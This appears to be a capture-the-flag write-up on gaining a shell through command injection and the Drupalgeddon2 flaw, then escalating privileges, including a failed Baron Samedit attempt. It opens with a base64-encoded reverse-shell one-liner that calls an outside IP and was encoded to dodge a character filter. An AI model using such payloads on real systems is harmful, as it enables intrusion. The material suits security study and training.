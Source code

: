 I encoded it in base 64 to avoid the filter deleting `;` and `&`. Here's my full payload:
```bash
| echo 'L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5My4xNjEuMTkzLjk5LzI0MTkzIDA+JjE=' | base64 -d | /bin/bash
```

### Execute_3

I'm trying to escalate privileges but kernel exploitation is not the good way (up to date), `sudo` is not installed, I didn't find any SUID or GUID exploitable binary and I didn't find a writable cron job.

We can `su` to `HNUser` using the password from **SSH jump_1**.

### Armageddon 1

I started by running [feroxbuster](https://github.com/epi052/feroxbuster) to find any resources that I can access. I used the wordlist `Discovery/Web-Content/raft-medium-directories.txt` from [seclists](https://github.com/danielmiessler/SecLists).

I found `drupal` which seemed interesting. I didn't know what it is so I started by doing some research.

I found the **CVE-2018-7600** which is also called **Drupalgeddon**. It's really similar to the name of the challenge.

So I ran this exploit [Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2).

And I got a shell.

The flag is in the current directory: `/opt/lampp/htdocs/drupal/FLAG0.txt`

### Armageddon 2

Using the shell from **Armageddon 1**, I ran `find / -iname 'flag*'` and I found the flag in `/home/robert/FLAG1.txt`.

### Armageddon 3

Using the shell from **Armageddon 1**, I ran `find / -iname 'flag*'` and I found the flag in `/home/robert/.ssh/FLAG2.txt`.

### Armageddon 4

I supposed the last flag was in `/root` so I tried to escalate privileges. I didn't find any CVE in these versions of MariaDB and httpd. But I found a CVE for this version of Ubuntu (`Ubuntu 18.04.1`).

So I tried to use the **CVE-2021-3156 (Sudo Baron Samedit)**.
Here is an awesome video explaining the vulnerability: [How SUDO on Linux was HACKED! // CVE-2021-3156](https://www.youtube.com/watch?v=TLa2VqcGGEQ)

I started by compiling and executing the exploit [exploit_timestamp_race](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_timestamp_race.c) to edit `/etc/passwd` but it completely corrupted it. I was unable to `su` and the shell became unusable. So I waited for the end of the hour for the container to reset.

